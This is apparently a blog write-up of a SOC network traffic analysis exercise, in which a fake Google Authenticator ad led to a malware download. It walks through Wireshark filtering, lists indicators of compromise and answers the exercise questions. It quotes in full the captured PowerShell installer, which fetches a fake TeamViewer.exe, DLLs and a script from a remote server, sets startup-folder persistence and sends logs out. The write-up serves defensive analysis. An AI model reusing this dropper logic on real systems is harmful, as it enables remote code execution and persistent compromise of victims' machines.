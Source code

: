 ```yaml
---
title: Traffic Analysis Exercise (Download from fake software site)
date: 2025-02-22 12:57:00 +3
categories: SOC
tags: [Network Traffic Analysis, Wireshark, Network Forensics, Threat Hunting]
image: 
  path: /assets/img/SoftwareDownload.JPG
---
```


On January 22, 2025, an employee reported to Fictional Corp’s Security Operations Center (SOC) that a coworker downloaded a suspicious file. A Bing search for the Google Authenticator application was done and they clicked on the malicious ad which led them to a malicious website where the fake software was installed. After the malware was executed on the victim’s machine, from the network traffic analysis it was observed that it would download other files to the machine. The malware also exhibited persistence capabilities by adding itself to the startup programs folder ensuring that it runs every time the system boots up. Despite no observable malicious actions to date, its presence poses a significant potential threat to the organization.

## LAN Segment Details from the PCAP

* LAN segment range:  **10.1.17[.]0/24**   (**10.1.17[.]0** through **10.1.17[.]255**)
* Domain:  **bluemoontuesday[.]com**
* Active Directory (AD) domain controller:  **10.1.17[.]2** - **WIN-GSH54QLW48D**
* AD environment name:  **BLUEMOONTUESDAY**
* LAN segment gateway:  **10.1.17[.]1**
* LAN segment broadcast address:  **10.1.17[.]255**

## Network Traffic Analysis Process
This section describes the steps taken in the network traffic analysis, my thought process, and how I reviewed the traffic to find the IoCs that were shared by the Threat Intelligence source, Palo Alto Networks. It most definitely made this process much easier, so let's dive in!

Considering that the incident involved visiting a malicious website, it was logical to start by filtering the packets for DNS traffic. I identified one of the subdomains used for the malicious ads, i.e., `google-authenticator.burleson-appliance.net/`.

![Alt Text](/assets/img/DFS1.JPG)

The next step involved filtering for HTTP requests in order to check for the fake software that was installed and other files that were pulled from the network when it was executed on the victim's machine. From the screenshot below, we can see `TeamViewer.exe`, `pas.ps1`, `29842.ps1`, and many others which were retrieved.

![Alt Text](/assets/img/DFS2.JPG)

In the screenshot below, it shows when I followed the TCP stream of the highlighted packets, and the more I scrolled down, I identified more files that were being pulled into the victim's machine. It's how I found `29842.ps1`.

![Alt Text](/assets/img/DFS3.JPG)

I also got to see the script that was used to install the fake TeamViewer application. This shows us the behavior of the fake software once it gets to the victim's machine. To summarize what it does, the script downloads and executes files (i.e., `TeamViewer.exe`, `Teamviewer_Resource_fr.dll`, `TV.dll`, and `pas.ps1` files) from a remote server; these are initial actions the fake software takes to establish itself in the victim's machine. It also created a shortcut in the startup folder so that it can run every time the system starts. This is a way in which attackers ensure persistence in the system. The script also sends logs to a remote server, which indicates that the fake software might be communicating with an external attacker, potentially sending sensitive data or receiving commands. This summary provides a behavior analysis of the fake software.

```javascript
function Download-Files($panelIP, $files, $filesDir){
    $web = New-Object System.Net.WebClient
    
    try {
        if(!(Test-Path $filesDir)) {
            New-Item $filesDir -ItemType Directory | Out-Null
        }
    } catch {
        return @{'status' = 'error'; 'message' = 'error while creating startup directory'}
    }
    
    foreach($file in $files) {
        try {
            $link = $file.link
            $fileName = $file.name
            $filePath = "$filesDir\$($file.name)"
            $web.DownloadFile($link, $filePath)
            if($fileName -eq $startupFile){
                $exePath = $startupFile
            }
        } catch {
            return @{'status' = 'error'; 'message' = "Error while download file. Filename: $($file.name). Link: $($link). Error: $($Error[0].exception.message)"}
        }
    }


    return @{'status' = 'success'}
}


function Create-Shortcut($filePath, $shortCutpath){
    $WshShell = New-Object -comObject WScript.Shell
    $Shortcut = $WshShell.CreateShortcut($shortCutpath)
    $Shortcut.TargetPath = $filePath
    $Shortcut.Save()
}


function Invoke-Startup($panelIP, $files, $filesDir, $startupFileName){
    $result = Download-Files $panelIP $files $filesDir
    if ($result.status -eq 'error'){
        return $result
    }


    #$startupFilePath = "$filesDir\$startupFileName"
    $startupFilePath = "C:\ProgramData\huo\TeamViewer.exe"
    $shortcutPath = "$([Environment]::GetFolderPath('Startup'))\TeamViewer.lnk"


    try {
        Create-Shortcut $startupFilePath $shortcutPath
    } catch {
        return @{'status' = 'error'; 'message' = "Error while creating shortcut."}
    }


    return @{'status' = 'success'; 'message' = 'startup shortcut created'}
}


function Send-Log($result){
    $log = "?k=$result"
    $uploadUrl = $url + $log
    $web = New-Object System.Net.WebClient
    $web.DownloadString($uploadUrl)
}


function ConvertTo-StringData($hashTable){
        foreach ($item in $hashTable) {
            foreach ($entry in $item.GetEnumerator()) {
                "{0} = {1}; " -f $entry.Key, $entry.Value
            }
        }
}


$filesDownloadLink = $ip + 'api/file/get-file/'
$filesDir = 'C:\ProgramData\huo'
$files = @(
    @{'name' = 'TeamViewer.exe'; 'link' = $filesDownloadLink + 'TeamViewer'},
    @{'name' = 'Teamviewer_Resource_fr.dll'; 'link' = $filesDownloadLink + 'Teamviewer_Resource_fr'},
    @{'name' = 'TV.dll'; 'link' = $filesDownloadLink + 'TV'}
    @{'name' = 'pas.ps1'; 'link' = $filesDownloadLink + 'pas.ps1'}
)
$startupFile = 'TeamViewer.exe'


$result = Invoke-Startup $panelIP $files $filesDir $startupFile
$result = ConvertTo-StringData($result)
Send-Log($result)p, li { white-space: pre-wrap; }hr { height: 1px; border-width: 0; }li.unchecked::marker { content: "\2610"; }li.checked::marker { content: "\2612"; }
```

I also took note of the server that supported the downloads: `5.252.153.241`.

![Alt Text](/assets/img/DFS4.JPG)

The following screenshots show an alternative method of finding more files that were retrieved from the malicious server. From the previous step, we already identified the IP address of the server hosting the malicious ad; hence, filtering the packets by specifying its IP address when filtering for HTTP requests can be useful in narrowing the traffic down to find much more valuable traffic.

![Alt Text](/assets/img/DFS5.JPG)

![Alt Text](/assets/img/DFS6.JPG)

## Questions 

**What is the IP address of the infected Windows client?** `10.1.17.215` 
At the start, when we filtered for DNS traffic, the IP that visited one of the malicious ad's subdomains is the infected Windows client.

![Alt Text](/assets/img/DFS7.JPG)

**What is the mac address of the infected Windows client?** `Intel_26:4a:74 (00:d0:b7:26:4a:74)`
This information was obtained from the very same packet from the previous question. The screenshot below shows its details where I got the MAC address.

![Alt Text](/assets/img/DFS8.JPG)

**What is the host name of the infected Windows client?** `DESKTOP-L8C5GSJ`
Since I already knew the IP address of the affected machine, I used it to filter the packets to display NBNS packets associated with the infected Windows client.

![Alt Text](/assets/img/DFS9.JPG)

![Alt Text](/assets/img/DFS10.JPG)

**What is the user account name from the infected Windows client?** `shutchenson`
I searched for Kerberos authentication, which is used by AD DC, to see if I could find packets that would reveal the user account name. I selected the first packet and viewed its details and got `shutchenson`.

![Alt Text](/assets/img/DFS11.JPG)

**What is the likely domain name for the fake Google Authenticator page?**
From a previous DNS filtered search, I found a subdomain which is also listed as one of the main website's subdomains that could likely be the Google Authenticator page.

![Alt Text](/assets/img/DFS12.JPG)



